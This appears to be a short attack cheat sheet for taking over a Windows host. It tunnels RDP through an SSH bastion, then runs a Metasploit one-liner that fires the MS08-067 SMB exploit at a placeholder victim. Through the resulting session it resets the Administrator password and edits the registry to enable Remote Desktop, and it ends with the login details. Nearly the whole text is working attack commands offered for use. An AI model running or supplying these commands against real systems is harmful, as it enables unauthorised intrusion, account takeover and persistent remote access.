 ssh {BASTION} -l {USER} -L 3389:{VICTIM}:3389

msfconsole -x "use exploit/windows/smb/ms08_067_netapi;set LHOST eth0;set RHOST {VICTIM};set LPORT 4443;exploit;sessions -c 'net user Administrator {PASSWORD}';sessions -c 'reg add HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'"

Microsoft Remote Desktop
localhost, Administrator,{PASSWORD}